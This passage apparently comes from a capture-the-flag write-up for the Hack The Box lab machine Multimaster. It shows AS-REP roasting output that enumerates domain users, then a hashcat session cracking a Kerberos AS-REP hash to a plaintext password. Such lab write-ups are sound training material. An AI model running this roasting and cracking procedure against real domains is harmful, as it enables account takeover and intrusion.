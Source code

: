 ```text
[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User svc-nas doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User svc-sql doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User tushikikatomo doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User zac doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
```

the password cracked very quickly

```text
zweilos@kalimaa:~/htb/multimaster$ hashcat -m 18200 -a 0 jorden.hash ~/rockyou.txt
hashcat (v6.0.0) starting...
Dictionary cache built:
* Filename..: /home/zweilos/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921506
* Keyspace..: 14344384
* Runtime...: 2 secs

$krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae1152f9fe42b5c$112eb867bb4c8c06593c39d27e4ca1167692f7f061691c45cd1825291fd3ae9a7b8130e239d076b0f928fc42e7d683444cb8b3124d54711fbd72278e24cf75f5bd08351fc4b63e43ae9e5affac8b6b702eef582c720ed88855e6c9a6ac41ebe7b5b86fb4043f607a6d4a090022c471183e812d08501d49ae1d2f1c62d35816e95c98437d54e396a1b680b7836a6cad4c3af218d25187bd3ac4df45ffbc13359d7b952b7d841a89ac7a1c8c16ce5625dc03212af744371cb24c611c9ddf0da4c3de5740ea9cdaf09e113d23e9969d4107be3ecc2ceeed48f274f95e5d108ff504fe527ff86a71606d38f5:rainforest786

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae11...6d38f5
Time.Started.....: Fri Jul 24 20:36:37 2020 (6 secs)
Time.Estimated...: Fri Jul 24 20:36:43 2020 (0 secs)
Guess.Base.......: File (/home/zweilos/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   740.8 kH/s (13.81ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4407296/14344384 (30.72%)
Rejected.........: 0/4407296 (0.00%)
Restore.Point....: 4390912/14344384 (30.61%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ramirez@7 -> rageagaint

Started: Fri Jul 24 20:36:14 2020
Stopped: Fri Jul 24 20:36:44 2020
```
